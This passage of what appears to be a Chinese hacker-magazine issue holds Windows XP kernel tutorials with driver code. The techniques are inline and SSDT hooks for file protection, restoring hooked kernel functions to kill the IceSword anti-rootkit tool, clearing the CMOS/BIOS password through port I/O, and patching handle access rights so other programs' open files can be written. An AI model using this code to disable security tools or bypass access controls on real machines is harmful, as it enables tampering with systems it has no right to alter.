    // test.txt 是要保护的文件名
    RtlInitUnicodeString(&ptfile, L"test.txt");
    pIrpStack = IoGetCurrentIrpStackLocation(Irp);
    nowfile = pIrpStack->FileObject->FileName;
    if (SpyFindSubString(&nowfile, &ptfile))
    {
        ...
    }
}
```

```c
{
    return STATUS_ACCESS_DENIED;
}
st = ((pfnDrvDispatch)ProcProtectHkD[ihkn_NtfsDispatch].pOriginalData)(DeviceObject, Irp);
return st;
}
```

挂钩方式也很简单，个人感觉跟 Inline Hook 内核函数区别不大，代码如下：

```c
BOOLEAN EnableFileProtect()
{
    PVOID pOgn;
    ULONG jdl;
    FuncModify((PVOID)NtfsDispatch, DrvDispatch, &pOgn, &jdl);
    ProcProtectHkD[1].pOriginalData = pOgn;
    ProcProtectHkD[1].JmpDataLength = jdl;
    return TRUE;
}
```

挂钩完成后，就可以在 XueTr 中看到 FSD 的相关项变红了，如图 1 所示。


可是效果比较让人失望，除了对付资源管理器和 Icelight、天邪、360 超级文件粉碎机 1.6，冰刃、XueTr 均能轻易删除。不过想想也是，FSD Inline Hook 算是比较老的技术了，ARK 工具能删除不算怪事。

###### 中级防删除：Hook IoCreateFile

我参阅了一下网上关于文件强制删除的代码，基本上都用到了 IoCreateFile 和 IoCallDriver 这两个函数。luke_blue 的文件保护方式是 Hook IofCallDriver，而我比较喜欢 Hook IoCreateFile。保护文件的原理很简单，直接禁止访问那个文件即可。在 `FAKE_IoCreateFile` 中的处理代码如下：

```c
NTSTATUS DetourMyIoCreateFile(
    PHANDLE FileHandle,
    ACCESS_MASK DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PIO_STATUS_BLOCK IoStatusBlock,
    PLARGE_INTEGER AllocationSize,
    ULONG FileAttributes,
    ULONG ShareAccess,
    ULONG CreateDisposition,
    ULONG CreateOptions,
    PVOID EaBuffer,
    ULONG EaLength,
    CREATE_FILE_TYPE CreateFileType,
    PVOID InternalParameters,
    ULONG Options)
{
    // prtfile: 要保护的文件, nowfile: 要处理的文件
```

```c
UNICODE_STRING prtfile, nowfile;
RtlInitUnicodeString(&prtfile, L"\\??\\c:\\testfile\\test.txt");
RtlUpcaseUnicodeString(&prtfile, &prtfile, FALSE);
RtlUpcaseUnicodeString(&nowfile, ObjectAttributes->ObjectName, TRUE);
if (SpyFindSubString(&nowfile, &prtfile) == TRUE)
{
    RtlFreeUnicodeString(&nowfile);
    return STATUS_ACCESS_DENIED;
}
RtlFreeUnicodeString(&nowfile);
return OriginalIoCreateFile(FileHandle, DesiredAccess, ObjectAttributes,
    IoStatusBlock, AllocationSize, FileAttributes, ShareAccess,
    CreateDisposition, CreateOptions, EaBuffer, EaLength,
    CreateFileType, InternalParameters, Options);
}
```

其中的“SpyFindSubString”是在字符串中查找子字符串的函数，如果找到则返回 TRUE，否则返回 FALSE。

```c
BOOLEAN SpyFindSubString(PUNICODE_STRING String, PUNICODE_STRING SubString)
{
    ULONG index;
    if (RtlEqualUnicodeString(String, SubString, TRUE))
        return TRUE;
    for (index = 0; index + (SubString->Length / sizeof(WCHAR)) <= (String->Length / sizeof(WCHAR)); index++)
    {
        if (_wcsnicmp(&String->Buffer[index], SubString->Buffer,
            (SubString->Length / sizeof(WCHAR))) == 0)
            return TRUE;
    }
    return FALSE;
}
```

经测试，可以成功防止天邪和 360 超级文件粉碎机 1.6 的强制删除（天邪的“破坏文件”功能也无效）。不过，冰刃和 XueTr 依然能轻易删除我们保护的文件。另外说一下，要在 Windows 7 x86 下达到同样的效果，需要 Hook IopCreateFile，因为根据 WinDbg 的反汇编结果，NtCreateFile 中的唯一一个 Call 是 IopCreateFile，而非 Windows XP 中的 IoCreateFile。如果在 Windows 7 x86 中 Hook IoCreateFile，则没有任何效果。

###### 高级防删：Hook IoCheckShareAccess

在这里，我们要向顶级大牛的作品挑战：pif 的冰刃和 linxer 的 XueTr。大家想想，冰刃和 XueTr 再厉害，也不可能完全自己实现删除文件的功能，它们终究要调用到系统函数的。我发现，调用 IoCreateFile 到 FSD 以后，会走以下流程检查一个属性的权限（以 NTFS 文件系统为例）：NtfsCommonCreate -> NtfsOpenFile -> NtfsOpenAttributeInExistingFile -> NtfsOpenExistingAtr -> NtfsOpenAttributeCheck -> IoCheckShareAccess。其中，IoCheckShareAccess 是 ntosxxx.exe 的导出函数。其原型如下：

```c
NTSTATUS
IoCheckShareAccess(
  IN ACCESS_MASK DesiredAccess,
  IN ULONG DesiredShareAccess,
  IN OUT PFILE_OBJECT FileObject,
  IN OUT PSHARE_ACCESS ShareAccess,
  IN BOOLEAN Update
);
```

MSDN 对其描述如下：“The IoCheckShareAccess routine is called by file system drivers (FSDs) or other highest-level drivers to check whether shared access to a file object is permitted.” 即使略懂英语的人，也能从这个函数的名称猜出它是检查文件权限的函数。如果我们对这个函数做手脚，文件就不能被删除了。实现的代码如下：

```c
NTSTATUS DetourMyIoCheckShareAccess(
  ACCESS_MASK DesiredAccess,
  ULONG DesiredShareAccess,
  PFILE_OBJECT FileObject,
  PSHARE_ACCESS ShareAccess,
  BOOLEAN Update
)
{
  ...
}
```

```c
NTSTATUS stat;
PUNICODE_STRING FileName;
UNICODE_STRING myfile;
BOOLEAN ReadAccess;
BOOLEAN WriteAccess;
BOOLEAN DeleteAccess;

ReadAccess = (DesiredAccess & (FILE_READ_DATA | FILE_EXECUTE)) != 0;
WriteAccess = (DesiredAccess & (FILE_WRITE_DATA | FILE_APPEND_DATA)) != 0;
DeleteAccess = (DesiredAccess & DELETE) != 0;

FileName = (PUNICODE_STRING)((UCHAR*)FileObject + 0x30);
RtlInitUnicodeString(&myfile, L"test.txt");
if (SpyFindSubString(FileName, &myfile) == TRUE) {
    if (WriteAccess == TRUE || DeleteAccess == TRUE) {
        stat = STATUS_ACCESS_DENIED;
    } else {
        stat = OriginalIoCheckShareAccess(DesiredAccess, DesiredShareAccess, FileObject, ShareAccess, Update);
    }
} else {
    stat = OriginalIoCheckShareAccess(DesiredAccess, DesiredShareAccess, FileObject, ShareAccess, Update);
}
return stat;
```

经测试，冰刃、XueTr 均无法删除我们保护的文件。如果我们把代码改成完全拒绝对文件的访问，则 XueTr 连我们被保护文件的大小都会无法获取。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VC
- 关键词：冰刃、Inline、Hook

##### 恢复 Inline Hook 结束冰刃进程


文/键盘上的眼泪

关闭冰刃有很多种方法，比如调用内核未导出的 PsTerminateProcess 函数，或者使用模拟点击。本文将用一种“物归原主”的方法来对付冰刃。冰刃对自身的进程保护方法是 Inline Hook 了 NtOpenProcess 和 ...NtTerminateProcess 这两个函数，修改了这两个函数的前 5 个字节，jmp 到自己定义的处理函数里，所以只要我们将这两个被 Hook 的函数“物归原主”恢复过来，那么在 Ring3 下调用 OpenProcess 获得进程句柄，然后再调用 TerminateProcess 就能轻松结束冰刃进程。

```asm
kd> u NtOpenProcess
nt!NtOpenProcess:
805c0b78 68c4000000    push 0C4h
805c0b7d 6888aa4d80    push offset nt!ObWatchHandles+0x25c
805c0b82 e859757fff    call nt!_SEH_prolog
805c0b87 33f6          xor esi,esi
805c0b89 8975d4        mov dword ptr [ebp-2Ch],esi
805c0b8c 33c0          xor eax,eax
805c0b8e 8d7dd8        lea edi,[ebp-28h]
805c0b91 ab            stos dword ptr es:[edi]
```

在 WinDbg 下可以看到，NtOpenProcess 函数的地址是 805c0b78，前 5 个字节对应的机器指令是 68c4000000。NtTerminateProcess 函数的地址是 805c84c8，前 5 个字节对应的机器指令为 8bff558bec。

```asm
kd> u NtTerminateProcess
nt!NtTerminateProcess:
805c84c8 8bff          mov edi,edi
805c84ca 55            push ebp
805c84cb 8bec          mov ebp,esp
805c84cd 83ec10        sub esp,10h
805c84d0 53            push ebx
805c84d1 56            push esi
805c84d2 57            push edi
805c84d3 64a124010000  mov eax,dword ptr fs:[00000124h]
```

得到前 5 个字节正确的机器指令之后，我们的程序将 NtOpenProcess 和 NtTerminateProcess 的前 5 个字节修改成正确的 68c4000000 和 8bff558bec，就能让冰刃的进程保护无效，具体实现代码如下：

```c
#include <ntddk.h>
#include "MyCreateDevice.h"
#define DWORD unsigned long
unsigned char OldCode[5]  = "\x68\xc4\x00\x00\x00";
unsigned char OldCode2[5] = "\x8b\xff\x55\x8b\xec";

#pragma pack(1)
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    unsigned int *ServiceCounterTableBase;
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
} ServiceDescriptorTableEntry_t, *PServiceDescriptorTableEntry_t;
#pragma pack()

__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;

void DriverUnload(IN PDRIVER_OBJECT DriverObject)
{
    UNICODE_STRING usSymLinkName;
    PDEVICE_OBJECT pDeviceObject = NULL;
    RtlInitUnicodeString(&usSymLinkName, L"\\DosDevices\\MySymLink");
    IoDeleteSymbolicLink(&usSymLinkName);
    pDeviceObject = DriverObject->DeviceObject;
    IoDeleteDevice(pDeviceObject);
    DbgPrint("Driver Unload!\n");
}
```

```c
// 自定义 IRP 派遣函数
NTSTATUS MyDispatch(IN PDEVICE_OBJECT device, IN PIRP irp)
{
    PIO_STACK_LOCATION stack = IoGetCurrentIrpStackLocation(irp);
    irp->IoStatus.Status = STATUS_SUCCESS;
    irp->IoStatus.Information = 0;

    if (stack->MajorFunction == IRP_MJ_CREATE)
    {
        DWORD Addr, Addr2;
        Addr  = *(KeServiceDescriptorTable.ServiceTableBase + 0x7A);
        Addr2 = *(KeServiceDescriptorTable.ServiceTableBase + 0x101);

        __asm {
            CLI
            MOV eax, CR0
            AND eax, NOT 10000H
            MOV CR0, eax
            pushad
            mov edi, Addr
            mov eax, dword ptr OldCode[0]
            mov [edi], eax
            mov al, byte ptr OldCode[4]
            mov [edi+4], al
            mov edi, Addr2
            mov eax, dword ptr OldCode2[0]
            mov [edi], eax
            mov al, byte ptr OldCode2[4]
            mov [edi+4], al
            popad
            MOV eax, CR0
            OR eax, 10000H
            MOV CR0, eax
            STI
        }
    }

    if (stack->MajorFunction == IRP_MJ_CLOSE)
    {
        DbgPrint("IRP_MJ_CLOSE\n");
    }

    IoCompleteRequest(irp, IO_NO_INCREMENT);
    return STATUS_SUCCESS;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING RegistryPath)
{
    // 创建设备与符号链接
    MyCreateDevice(DriverObject);
    DriverObject->MajorFunction[IRP_MJ_CREATE] = MyDispatch;
    DriverObject->DriverUnload = DriverUnload;
    return STATUS_SUCCESS;
}
```

程序执行之后，冰刃的进程保护就失效了，即便用 Windows 任务管理器都可以直接结束其进程。为了简化程序，本文使用了硬编码的方式，所以有可能程序只支持 Windows XP，有需要的读者可以根据实际情况改进一下。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：Delphi
- 关键字：编程、CMOS、Ring0

##### 内核编写 CMOS 维护工具


文/图 liuke_blue

我们知道 Windows 98 以前的系统，应用程序可以直接访问 I/O 端口。举个例子，当不知道 CMOS 密码时，我们可以在 DOS 下输入如下 debug 命令：

```text
A 100
-15D2:0100 MOV AL,10 (此处为 0-100 的任意值)
-15D2:0102 OUT 70,AL (直接访问 I/O 端口必须通过 AL 寄存器)
-15D2:0104 OUT 71,AL (破坏校验和)
-15D2:0106 INT 20 (结束程序)
-15D2:0108 (回车)
G-0100 (执行程序)
Q
```

这样可以通过输入垃圾数据来破坏 CMOS 里存有的数据，从而顺便达到清除 CMOS 密码的目的。但是到了 Windows 2000 以后，这个方法却行不通了。有些文章说由于 Windows 2000 以后的系统所带的 DOS 是模拟的，禁止对 CMOS 写入，但真正的原因是保护模式 I/O 访问保护的出现。DOS 系统运行在实模式下，实模式的所有指令相当于工作在特权级（优先级 0）；而在保护模式中优先级分 0 级~3 级，Windows 系统不使用 1 级和 2 级，所以只用到 0 级和 3 级，“很眼熟”吧，这就是 Ring0 和 Ring3。应用程序运行在 Ring3，内核程序运行在 Ring0。

而 Windows I/O 访问的规则有这么一条：若 CPL<=IOPL，则进行 I/O 访问。Windows 中 IOPL=0，所以只有在内核下才可以访问 I/O，因为 Ring0 中 CPL=0，而 Ring3 中 CPL=3，所以最简单的方法就是直接在内核下访问 I/O。

本文程序分为两部分，首先介绍内核代码，主要代码如下：

```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING RegistryPath)
{
    UNICODE_STRING devicenamestring, devicelinkstring;
    PDEVICE_OBJECT deviceObject;
    NTSTATUS status;

    pIOPM = MmAllocateNonCachedMemory(sizeof(IOPM));
    if (pIOPM == 0) {
        return STATUS_INSUFFICIENT_RESOURCES;
    }

    RtlZeroMemory(pIOPM, sizeof(IOPM));
    Ke386IoSetAccessProcess(PsGetCurrentProcess(), 1);
    Ke386SetIoAccessMap(1, pIOPM);

    RtlInitUnicodeString(&devicenamestring, L"\\Device\\clear1234");
    RtlInitUnicodeString(&devicelinkstring, L"\\DosDevices\\clear1234");

    status = IoCreateDevice(DriverObject, 0, &devicenamestring, FILE_DEVICE_MYPORT, 0, FALSE, &deviceObject);
    if (!NT_SUCCESS(status)) {
        return status;
    }

    status = IoCreateSymbolicLink(&devicelinkstring, &devicenamestring);
    if (!NT_SUCCESS(status)) {
        IoDeleteDevice(deviceObject);
    }
}
```

用 MmAllocateNonCachedMemory 函数分配 8KB 内存空间（CPU 读数据时会从内存中读取，而不是从高速缓冲存储器中读取）。使用 Ke386IoSetAccessProcess 函数指定当前进程访问 IOPM 表（这个 IOPM 表是指 65536 个端口的位屏蔽矩阵，包含 8192 字节）。Ke386SetIoAccessMap 函数访问任务状态段 TSS 的 I/O 许可位图，然后用 _inp 和 _outp 这两个函数直接访问 I/O 端口。

CMOS 是一个 128 字节大小的存储区，它存放了有关机器 BIOS 配置的重要信息，而 BIOS 内有 CMOS 的设置程序。基于 IBM PC 的机器分配了 70H 和 71H 端口给 CMOS，通过这两个端口我们可以访问或者修改 CMOS 的配置信息。访问 70H，确定访问 CMOS 的地址（0H-80H），然后通过向已确定后的 CMOS 地址访问 71H 数据端口，从而达到访问或修改 CMOS 内数据的目的。应用程序的主要代码如下：

```c
return status;
}

// 这里不指定分发例程，在 check 中无法成功？
DriverObject->MajorFunction[IRP_MJ_CREATE]         = MyCreateClose;
DriverObject->MajorFunction[IRP_MJ_CLOSE]          = MyCreateClose;
DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = MyPortDispatch;
DriverObject->DriverUnload                         = DriverUnload;
return STATUS_SUCCESS;
}

NTSTATUS DriverUnload(IN PDRIVER_OBJECT DriverObject)
{
    UNICODE_STRING linkString;
    if (pIOPM)
    {
        MmFreeNonCachedMemory(pIOPM, IOPM_SIZE);
    }
    DbgPrint("卸载驱动!");
    // 必须删除符号链接才卸载完成
    RtlInitUnicodeString(&linkString, L"\\DosDevices\\clear1234");
    IoDeleteSymbolicLink(&linkString);
    IoDeleteDevice(DriverObject->DeviceObject);
    return STATUS_SUCCESS;
}

// 处理 I/O 端口过程
NTSTATUS MyPortDispatch(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    PIO_STACK_LOCATION sp;
    ULONG dwIoControlCode;
    PULONG PIOBuffer;
    NTSTATUS ntstatus;

    sp = IoGetCurrentIrpStackLocation(Irp);
    Irp->IoStatus.Status = 0;
    Irp->IoStatus.Information = 0;
    PIOBuffer = Irp->AssociatedIrp.SystemBuffer;
    dwIoControlCode = sp->Parameters.DeviceIoControl.IoControlCode;

    switch(dwIoControlCode)
    {
    case IOCTL_MYPORT_READ_BYTE:
        // 从端口读字节
        PIOBuffer[1] = _inp(PIOBuffer[0]);
        Irp->IoStatus.Information = 8;
        break;

    case IOCTL_MYPORT_WRITE_BYTE:
        // 向端口写字节
        _outp(PIOBuffer[0], PIOBuffer[1]);
        DbgPrint("WriteByte=0x%x\n", PIOBuffer[1]);
        break;

    default:
        Irp->IoStatus.Status = STATUS_INVALID_PARAMETER;
    }

    ntstatus = Irp->IoStatus.Status;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return ntstatus;
}
```

```pascal
procedure TForm1.IO_install();
begin
  if sysdrv = nil then
  begin
    sysdrv := TSysDriver.Create('clear1234');
    sysdrv.OpenSCM;
    sysdrv.Install();
    sysdrv.Start;
    sysdrv.DeviceOpen;
    if not HaveLoad then
    begin
      MessageBox(0, '驱动未加载，列表出错！', '警告', MB_OK+MB_ICONERROR);
      ExitProcess(0);
    end;
  end;
end;

procedure TForm1.IO_Uninstall();
begin
  if sysdrv <> nil then
  begin
    sysdrv.DeviceClose;
    sysdrv.Stop;
    sysdrv.Remove;
    sysdrv.CloseSCM;
    sysdrv.Free;
    sysdrv := nil;
  end;
end;

procedure TForm1.FormCreate(Sender: TObject);
begin
  IO_install;
end;

procedure TForm1.FormClose(Sender: TObject; var Action: TCloseAction);
begin
  IO_Uninstall;
end;

// 读端口
function TForm1.ReadPortByte(port: WORD): BYTE;
var
  bufarray: array[0..1] of DWORD;
  dwOutBytes: DWORD;
```

```pascal
begin
  BUF[0] := PORT;
  DeviceIoControl(hDevice,
    IOCTL_MYPORT_READ_BYTE,
    @buf,
    sizeof(DWORD) * 2,
    @buf,
    sizeof(DWORD) * 2,
    dwOutBytes,
    nil);
  result := BYTE(buf[1]);
end;

// 写端口
procedure TForm1.WritePortByte(port: WORD; data: BYTE);
var
  buf: array [0..1] of DWORD;
  dwOutBytes: DWORD;
begin
  buf[0] := port;
  buf[1] := data;
  DeviceIoControl(hDevice,
    IOCTL_MYPORT_WRITE_BYTE,
    @buf,
    sizeof(DWORD) * 2,
    @buf,
    sizeof(DWORD) * 2,
    dwOutBytes,
    nil);
end;

// 清除 CMOS 密码
procedure TForm1.SpeedButton1Click(Sender: TObject);
begin
  WritePortByte($70, $10);
  WritePortByte($71, $11);
  MessageBox(0, 'CMOS 密码可能清除成功！', '提示', MB_OK + MB_ICONINFORMATION);
end;

// 备份 CMOS 数据
procedure TForm1.SpeedButton2Click(Sender: TObject);
var
  i, len: integer;
  SvFilePath: string;
  data: BYTE;
  CMOSFile: THandle;
  dwReturnByte: DWORD;
begin
  SvFilePath := ExtractFilePath(GetModuleName(HInstance));
  len := Length(SvFilePath);
  if SvFilePath[len] <> '\' then SvFilePath := SvFilePath + '\';
  SvFilePath := SvFilePath + 'CMOS.data';
  if FileExists(SvFilePath) then DeleteFile(SvFilePath);
  if not FileExists(SvFilePath) then
    CMOSFile := CreateFile(PChar(SvFilePath), GENERIC_READ or GENERIC_WRITE, 0, nil, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0);
  SetFilePointer(CMOSFile, 0, nil, FILE_BEGIN);
  // 备份 CMOS
  i := 0;
  while (i < 128) do
  begin
    WritePortByte($70, BYTE(i));
    data := ReadPortByte($71);
    // 将数据写入文件中
    WriteFile(CMOSFile, data, 1, dwReturnByte, nil);
    Inc(i);
  end;
  MessageBox(0, 'CMOS 数据备份成功！', '提示', MB_OK + MB_ICONINFORMATION);
end;

procedure TForm1.SpeedButton3Click(Sender: TObject);
var
  i, len: integer;
  SvFilePath: string;
  CMOSFile: THandle;
  data: BYTE;
  dwReturnByte: DWORD;
begin
  SvFilePath := ExtractFilePath(GetModuleName(HInstance));
  len := Length(SvFilePath);
  if SvFilePath[len] <> '\' then SvFilePath := SvFilePath + '\';
  SvFilePath := SvFilePath + 'CMOS.data';
  if not FileExists(SvFilePath) then
  begin
    MessageBox(0, 'CMOS 数据恢复失败！', '警告', MB_OK + MB_ICONERROR);
    Exit;
  end;
  CMOSFile := CreateFile(PChar(SvFilePath), GENERIC_READ, 0, nil, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);
  SetFilePointer(CMOSFile, 0, nil, FILE_BEGIN);
  // 恢复 CMOS
  i := 0;
  while (i < 128) do
  begin
    ReadFile(CMOSFile, data, 1, dwReturnByte, nil);
    WritePortByte($70, BYTE(i));
    WritePortByte($71, BYTE(data));
    Inc(i);
    SetFilePointer(CMOSFile, 1, nil, FILE_BEGIN);
  end;
  MessageBox(0, 'CMOS 数据恢复成功！', '提示', MB_OK + MB_ICONINFORMATION);
end;
```

其中使用了自己写的一个驱动加载的类，实现程序运行自动加载驱动，关闭程序时自动卸载驱动。图 1 是程序运行后的示意图。


图 1

CMOS 备份的数据放在与程序同一目录下，命名为 `CMOS.dat`，其中前面三个字节保存的是时间，所以每次保存的文件名都会有所不同。清空 CMOS 密码会把 CMOS 保存数据打乱，大家可以自己测试。其实直接访问 I/O 还可以修改硬盘数据，早期磁盘还原就是挂钩 int13 实现的。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VC
- 关键字：编程、句柄、Hook

##### 让句柄可写——修改正在被使用文件的方法探索


文/图 小度（黄飞）

这段时间在做一个项目，需要对第三方使用中的文件进行修改，然后就进行了相应的探索，总结之后得到了本文。之前研究原理的时候，发现了一个叫做 unlocker 的国外免费软件，网址是 `http://ccollomb.free.fr/unlocker`，目前官网最新版本是 1.8.9。它能够实现重命名、文件移动和强制删除。对它的原理，网上有个说法是得到进程打开的所有句柄信息后，用 `DuplicateHandle` 复制句柄到本地进程，然后把文件句柄发给驱动 `UnlockerDriver5.sys` 进行名字的查询，sys 将返回文件句柄对应的内核文件对象的完整名字，然后再进行处理，至于怎么处理没有详细说明。由于 unlocker 只具有重命名、文件移动和强制删除的功能，不满足我们的要求，所以在这里就不再深入研究。

为什么文件在被其他进程打开以后我们不能直接写入呢？初步猜测是在文件打开的过程中系统设置了某个值，让它不可以以写方式打开。在 `NtCreateFile` 和 `NtOpenFile` 函数中就有参数可以设置文件的打开方式，大家可以自己查看 MSDN。

下面先让我们来看一个结构。打开 WinDbg，输入 `dt _EPROCESS`，可以看到在 0xc4 的偏移处有一个指向 `_HANDLE_TABLE` 结构的指针，如图 1 所示，当然这个偏移是 Windows XP 下的，其他版本下的偏移大家可以自己看一下。

我们再来看一下 `dt _HANDLE_TABLE`，如图 2 所示。


图 1


图 2

下面是 `_HANDLE_TABLE` 结构的 C 代码：

```c
typedef struct _HANDLE_TABLE {
    ULONG TableCode;
    PEPROCESS QuotaProcess;
    PVOID UniqueProcessId;
    EX_PUSH_LOCK HandleTableLock[4];
    LIST_ENTRY HandleTableList;
    // ...
    EX_PUSH_LOCK HandleContentionEvent; // 4个字节
    PHANDLE_TRACE_DEBUG_INFO DebugInfo; // 4个字节
    LONG ExtraInfoPages;
    ULONG FirstFree;
    ULONG LastFree;
    ULONG NextHandleNeedingPool;
    LONG HandleCount;
    LONG Flags;
    UCHAR StrictFIFO;
} HANDLE_TABLE, *PHANDLE_TABLE;
```

##### HANDLE_TABLE 说明

进程在创建过程中，Windows 会为其创建一个 EPROCESS 结构，也就是《操作系统》教材里所说的进程控制块（PCB）。而进程控制块可以理解成进程存在的唯一标志。在这个结构中有许多的好东西，上一篇文章《DKOM 实现进程反杀》修改的就是其中 ProcessLock 的值。Windows XP 下，在 0x1b0 处有个指向 PEB 结构的指针，对应的是一个文件映射区，不过这个区域应该是一个备份。提到这个是因为之前做过一个东西，就错在这里了。

HANDLE_TABLE 是一个进程的句柄表，句柄表分为三层，通过句柄表可以找到这个进程打开的所有对象。我们在程序中获得的各种句柄，就是对象在句柄表中的索引。例如，在程序中打开文件，获得的是一个句柄（handle）。接下来通过这个句柄来对这个文件进行操作。句柄是该文件对象在句柄表中的索引，通过句柄，就可以在句柄表中找到相应的文件对象的指针。

通过 HANDLE_TABLE 结构，我们可以得到 HANDLE_TABLE_ENTRY 结构。而在 HANDLE_TABLE_ENTRY 结构中有一个让我们感兴趣的东西。我们先来看一下 HANDLE_TABLE_ENTRY 结构，还是使用 WinDbg 查看，如图 3 所示。


图 3

在 0x004 偏移处，结构体包含有一个 GrantedAccess 域。修改 GrantedAccess 就可以设置文件的访问权限，一般文件在被其他进程打开时，我们都是有读权限的（AC_GENERIC_READ）。于是我们有了以下的思路，如果把它设置为可写（AC_GENERIC_WRITE）或者 AC_GENERIC_ALL，那么我们就可以在文件被其他进程打开时改写其磁盘数据了。我们还原 HANDLE_TABLE_ENTRY 结构的 C 代码如下：

```c
typedef struct _HANDLE_TABLE_ENTRY
{
    union {
        PVOID Object;
        ULONG ObAttributes;
        ULONG InfoTable;
        ULONG Value;
    };
    union {
        union {
            ULONG GrantedAccess; // ACCESS_MASK GrantedAccess;
            struct {
                USHORT GrantedAccessIndex;
                USHORT CreatorBackTraceIndex;
            };
        };
        LONG NextFreeTableEntry;
    };
} HANDLE_TABLE_ENTRY, *PHANDLE_TABLE_ENTRY;
```

##### 获得 HANDLE_TABLE_ENTRY

为了得到 HANDLE_TABLE_ENTRY，我们使用 WRK 里的一个函数：ExpLookupHandleTableEntry(IN PHANDLE_TABLE, IN EXHANDLE)。具体函数就不贴出来了，大家可以自己查看 WRK。之前我们说过句柄表分为三层，在 ExpLookupHandleTableEntry 函数里就有很好的体现，不同的层次定位 HANDLE_TABLE_ENTRY 的方式各不相同，Windows 2000 和 Windows XP 也是不同的。函数入口参数有个 EXHANDLE 结构，其原型如下：

```c
typedef struct _EXHANDLE
{
    union {
        struct {
            ULONG TagBits : 2;
            ULONG Index   : 30;
        };
        HANDLE GenericHandleOverlay;
        #define HANDLE_VALUE_INC 4
        ULONG_PTR Value;
    };
} EXHANDLE, *PEXHANDLE;
```

对 EXHANDLE 的赋值，可用如下语句，Handle 在实际应用中是我们获得的句柄。

```c
HANDLE Handle;
EXHANDLE ExHandle;
ExHandle.GenericHandleOverlay = Handle;
```

##### 具体实现

作为示例，本文 SSDT Hook 了 NtCreateSection 函数，在函数被调用时，判断当前要打开的文件是否为我们的目标文件，如果是则获得 HANDLE_TABLE_ENTRY，修改 GrantedAccess 域，再使用 ZwWriteFile 函数写文件，读文件可使用 ZwReadFile 函数。实现代码如下：

```c
BOOLEAN SetGrantedAccess(
    IN HANDLE Handle,
    IN ACCESS_MASK GrantedAccess
)
{
    ULONG ObjectTableOffset = 0xc4;
    // 直接使用了硬偏移
    PEPROCESS pEProcess = PsGetCurrentProcess();
    // 得到当前的 EPROCESS 结构，定位到 HANDLE_TABLE
    PHANDLE_TABLE ObjectTable = *(PHANDLE_TABLE *)((ULONG)pEProcess + ObjectTableOffset);
    PHANDLE_TABLE_ENTRY Entry;
    EXHANDLE ExHandle;
    ExHandle.GenericHandleOverlay = Handle;
    Entry = ExpLookupHandleTableEntry(ObjectTable, ExHandle);
    if (Entry)
    {
        KdPrint(("UN GrantedAccess %x", Entry->GrantedAccess));
        Entry->GrantedAccess = GrantedAccess;
        KdPrint(("MO GrantedAccess %x", Entry->GrantedAccess));
    }
    return Entry > 0;
}
```

在 HookNtCreateSection 中调用 SetGrantedAccess()，再加上一些处理函数即可。我们使用以下代码测试：

```c
NTSTATUS rc;
HANDLE hRead;
rc = ZwWriteFile(hRead, NULL, NULL, NULL, &IoStatus,
    pBufferWriteIntoRVA, sizeof(ULONG),
    (PLARGE_INTEGER)&iRVA, NULL);
DbgPrint("修改前=%x", rc);

// 打开修改 GrantedAccess 前，使用 ZwWriteFile 的返回值
SetHandleAccess(hRead, GrantedAccess);

rc = ZwWriteFile(hRead, NULL, NULL, NULL, &IoStatus,
    pBufferWriteIntoRVA, sizeof(ULONG),
    (PLARGE_INTEGER)&iRVA, NULL);
DbgPrint("修改后=%x", rc);

// 打开修改 GrantedAccess 后，使用 ZwWriteFile 的返回值
```

结果如图 4 所示，我们可以看到修改前，ZwWriteFile 返回值为 0xc0000022，即 STATUS_ACCESS_DENIED；修改后，ZwWriteFile 返回值为 0，即 STATUS_SUCCESS。


图 4

##### 总结

以上就是修改 GrantedAccess 值让句柄可写的原因。做 Windows 内核终究不如 *NIX 下痛快，总是有种犹抱琵琶半遮面的感觉。尤其是在资料比较少的情况下，好多东西都要靠自己一步步地测试，不过成功之后的喜悦绝对是巨大的。

- 前置知识：VC
- 关键词：编程、Ring0、Hook

##### Ring0 检测中断及 KiFastCallEntry 钩子


文/UESTC 鹰剑

中断钩子和 KiFastCallEntry 钩子本来不是一回事，这里放在一起来说是有原因的，详细原因稍后道来。

中断处理机制从第一台 PC 诞生至今都存在，可见它的重要性，所以一些恶意软件可能会对中断函数进行挂钩，从而进行一些恶意操作，比如拦截键盘输入等。

下面我们就来编程恢复中断钩子。首先获取原始中断函数地址。众所周知，Windows 内核在加载到内存时先执行 KiSystemStartup 函数，这个函数在初始化完必要的寄存器、处理器个数和任务段之后就开始初始化中断了，因为接下来的许多操作都要依赖中断。所以我们可以在 KiSystemStartup 里面获取到原始中断函数表的地址，通过 IDA 可以看到设置中断的代码如下（Windows XP 和 Windows 7 下的变化不大）：

```asm
INIT:005D5490 8B 7D F0             mov edi, [ebp+var_10]
INIT:005D5493 BE 4C 82 5D 00       mov esi, offset _IDT
INIT:005D5498 B9 00 08 00 00       mov ecx, 800h
INIT:005D549D C1 E9 02             shr ecx, 2
INIT:005D54A0 F3 A5                rep movsd
```

其中的 _IDT 就是指向中断函数表在文件中的位置了，而 KiSystemStartup 就是 PE 文件的入口点，和其他驱动不一样（其他驱动入口一般都是初始化异常处理结构）。这个特点为我们准确定位上面的代码带来了很大便利。映射一份内核进来，找到 PE 入口点，往下找就可以发现上面的代码了。这个操作异常简单，代码就不提供了。下面主要说说文件 IDT 表里面的内容，文件里的 IDT 表和内存中的是不一样的，从 IDA 的结果来看，大致格式如下：

```c
Struct _RAW_IDT_TABLE
{
    ULONG IsrAddressRva;
    ULONG Other;
};
```

如果仅仅只是为了获取中断函数地址，没有必要知道 Other 到底是什么，但有些读者可能想知道得更多一些，查阅 ReactOS 源代码等资料，可以知道文件里的 IDT 表完整结构如下：

```c
typedef struct _KIDTRAWENTRY {
    union {
        DWORD Offset;
        struct {
